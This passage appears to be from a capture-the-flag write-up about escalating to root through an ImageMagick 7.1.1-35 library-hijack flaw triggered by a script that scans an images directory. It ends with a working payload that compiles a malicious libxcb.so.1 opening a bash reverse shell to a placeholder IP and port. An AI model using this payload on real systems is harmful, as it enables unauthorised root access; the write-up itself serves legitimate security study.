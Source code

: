 
```ad-important
This script automates the extraction of metadata from all `.jpg` files in the `/opt/app/static/assets/images` directory and logs the results to `metadata.log`.

1. **Navigate to Images Directory**:  
    `cd /opt/app/static/assets/images`  
    Moves to the directory containing image files.
    
2. **Reset Log File**:  
    `truncate -s 0 metadata.log`  
    Clears the existing `metadata.log` (or creates an empty file).
    
3. **Extract Metadata**:  
    `find ... | xargs /usr/bin/magick identify >> metadata.log`
    
    - Uses `find` to list all `.jpg` files recursively.
        
    - Runs `magick identify` (ImageMagick) to extract metadata (e.g., dimensions, format, EXIF data).
        
    - Appends the results to `metadata.log`.
```

So, knowing this, we can check the version of the binary:

```
/usr/bin/magick --version

Version: ImageMagick 7.1.1-35 Q16-HDRI x86_64 1bfce2a62:20240713 https://imagemagick.org
Copyright: (C) 1999 ImageMagick Studio LLC
License: https://imagemagick.org/script/license.php
Features: Cipher DPC HDRI OpenMP(4.5)
Delegates (built-in): bzlib djvu fontconfig freetype heic jbig jng jp2 jpeg lcms lqr lzma openexr png raqm tiff webp x xml zlib
Compiler: gcc (9.4)
```


Let's search for an exploit regarding that version:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250225144440.png)

We got it, an Arbitrary Code Execution in the `7.1.1-35` version of ImageMagick, let's read the PoC

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250225145206.png)

So, we need to go to `/opt/app/static/assets/images` and upload the following, for example, I changed it a bit to get a root as shell but we can simply change the command to give us `root.txt`:



```
gcc -x c -shared -fPIC -o ./libxcb.so.1 - << EOF
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

__attribute__((constructor)) void init(){
    system("/bin/bash -c 'bash -i >& /dev/tcp/IP/PORT 0>&1'");
    exit(0);
}
EOF
```
